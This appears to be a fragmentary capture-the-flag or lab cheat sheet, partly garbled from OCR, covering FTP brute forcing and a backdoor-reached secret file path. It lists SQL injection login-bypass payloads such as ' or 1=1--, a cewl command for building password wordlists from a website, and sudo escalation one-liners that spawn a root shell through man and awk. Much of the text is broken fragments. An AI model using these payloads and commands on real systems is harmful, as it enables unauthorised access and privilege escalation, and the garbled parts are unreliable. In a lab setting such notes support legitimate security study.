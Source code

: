 ### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

#### SECRET file

“SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. 
Ans: Path: C:\Users\Administrator\Documents\Findme

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
